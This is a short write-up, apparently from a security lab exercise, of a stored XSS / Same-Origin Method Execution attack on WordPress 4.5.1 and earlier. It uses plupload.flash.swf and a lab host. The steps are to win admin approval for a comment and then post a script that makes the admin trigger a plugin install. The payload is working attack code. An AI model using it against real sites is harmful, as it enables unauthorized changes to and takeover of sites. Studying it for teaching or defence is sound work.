 # The Steps
**Step 1:**
Gain trust from the admin by posting a Comment

**Step 2:** Wait for approval from the admin

**Step 3**
Inject XSS by posting the code below 
```
<button onclick="fire()">Click</button>
<script>
	function fire() { 
		open('javascript:setTimeout("location=\'http://wpdistillery.vm/wp-includes/js/plupload/plupload.flash.swf?target%g=opener.document.body.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click&uid%g=hello&\'", 2000)');
		setTimeout('location="http://wpdistillery.vm/wp-admin/plugin-install.php?tab=plugin-information&plugin=wp-super-cache&TB_iframe=true&width=600&height=550"')
	}
</script>
```

# The types / classes of vulnerabilities involved and any related CVE identifiers
**Pupload Same-Origin Method Execution attack (SOME)**

# Affected versions 
**Affected version**
WordPress <= 4.5.1

# Demo
